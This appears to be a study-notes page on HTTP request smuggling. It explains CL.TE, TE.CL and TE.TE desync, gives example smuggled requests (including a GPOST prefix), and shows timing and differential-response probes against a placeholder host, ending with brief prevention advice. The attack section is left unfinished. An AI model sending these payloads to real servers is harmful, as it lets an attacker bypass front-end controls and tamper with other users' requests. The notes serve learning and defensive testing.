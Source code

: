 # HTTP Request Smuggling

HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users. They might allow to bypass security controls, gain unauthorized access to sensitive data, and directly compromise other application users.

Request smuggling is primarily associated with HTTP/1 requests. However, websites that support HTTP/2 may be vulnerable, depending on their back-end architecture.

Today's web applications frequently employ chains of HTTP servers between users and the ultimate application logic. Users send requests to a front-end server (sometimes called a load balancer or reverse proxy) and this server forwards requests to one or more back-end servers. This type of architecture is increasingly common, and in some cases unavoidable, in modern cloud-based applications.

When the front-end server forwards HTTP requests to a back-end server, it typically sends several requests over the same back-end network connection, because this is much more efficient and performant. The protocol is very simple; HTTP requests are sent one after another, and the receiving server has to determine where one request ends and the next one begins:

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

In this situation, it is crucial that the front-end and back-end systems agree about the boundaries between requests. Otherwise, an attacker might be able to send an ambiguous request that gets interpreted differently by the front-end and back-end systems:

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Here, the attacker causes part of their front-end request to be interpreted by the back-end server as the start of the next request. It is effectively prepended to the next request, and so can interfere with the way the application processes that request.

## How do HTTP request smuggling vulnerabilities arise?

HTTP/1 specification provides two different ways to specify where a request ends: the `Content-Length` header and the `Transfer-Encoding` header.

{% code overflow="wrap" fullWidth="true" %}
```sh
# The Content-Length header is straightforward: it specifies the length of the message body in bytes.
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling

# The Transfer-Encoding header can be used to specify that the message body uses chunked encoding.
# NOTE: Browsers do not normally use chunked encoding in requests, and it is normally seen only in server responses. 
This means that the message body contains one or more chunks of data. Each chunk consists of the chunk size 
in bytes (expressed in hexadecimal), followed by a newline, followed by the chunk contents. 
The message is terminated with a chunk of size zero. For example: 
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b
q=smuggling
0

# Conflict comes when sending both headers at once. Specification says Content-Length should be ignored.
# That is OK with a single server, but with 2+ are chained together: 
 - Some servers do not support the Transfer-Encoding header in requests.
 - Some servers that do support the Transfer-Encoding header can be induced not to process it if the header is obfuscated in some way.
```
{% endcode %}

## How to perform an HTTP request smuggling attack

{% code overflow="wrap" fullWidth="true" %}
```sh
# Placing both Content-Length and Transfer-Encoding headers into a single HTTP/1 request and manipulating these
# so that the front-end and back-end servers process the request differently
# The exact way in which this is done depends on the behavior of the two servers: 
    CL.TE: the front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header.
    TE.CL: the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header.
    TE.TE: the front-end and back-end servers both support the Transfer-Encoding header, but one of the servers 
    can be induced not to process it by obfuscating the header in some way.
# NOTE: These techniques are only possible using HTTP/1 requests. Change HTTP/2 to HTTP/1 on Burp > Request attributes


### CL.TE vulnerabilities
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
### Front-end server processes Content-Length header (body 13 bytes long), up to the end of SMUGGLED. 
# This request is forwarded on to the back-end server. 
### The back-end server processes Transfer-Encoding header, and so treats the message body as using chunked encoding. 
# It processes the first chunk, which is stated to be zero length, and so is treated as terminating the request. 
# The following bytes, SMUGGLED, are left unprocessed, and the back-end server will treat as start of the next request in the sequence. 
# Example to perform request on the back-end server using GPOST method:
POST / HTTP/1.1

...

Content-Length: 35

Transfer-Encoding: chunked



5

GPOST

0



GPOST / HTTP/1.1

# TO BE CONTINUED... TO DO: incomplete, add more techniques from PortSwigger
```
{% endcode %}

## Finding HTTP request smuggling vulnerabilities

{% code overflow="wrap" fullWidth="true" %}
```sh
########### USING TIMING TECHNIQUES
send requests that will cause a time delay in the application responses if a vulnerability is present. 
# Finding CL.TE vulnerabilities using timing techniques
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
# If vulnerable, sending a request like the above will often cause a time delay
# Front-end processes Content-Length so does not include X. Back-end -> Transfer-Encoding so X is a new request for it.
# Back-end server processes first chunk, then waits for new chunk to arrive. That introduces an observable time delay.

########### USING DIFFERENTIAL RESPONSES
# This involves sending 2 requests in quick succession:
    An "attack" request that is designed to interfere with the processing of the next request.
    A "normal" request.
If the response to the normal request contains the expected interference, then the vulnerability is confirmed.
# For example, suppose the normal request looks like this:
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling

This request normally receives an HTTP response with status code 200, containing some search results.
The attack request that is needed to interfere with this request depends on the variant of request smuggling that is present: CL.TE vs TE.CL. 
# Confirming CL.TE vulnerabilities using differential responses
# To confirm a CL.TE vulnerability, you would send an attack request like this:
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
# If the attack is successful, then the last two lines of this request are treated by the back-end server 
# as belonging to the next request that is received. This will cause the subsequent "normal" request to look like this:
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling

Since this request now contains an invalid URL, the server will respond with status code 404, 
indicating that the attack request did indeed interfere with it. 
```
{% endcode %}

## How to prevent HTTP request smuggling vulnerabilities

* Use HTTP/2 end to end and disable HTTP downgrading if possible.
* Make the front-end server normalize ambiguous requests and make the back-end server reject any that are still ambiguous, closing the TCP connection in the process.
* Never assume that requests won't have a body.

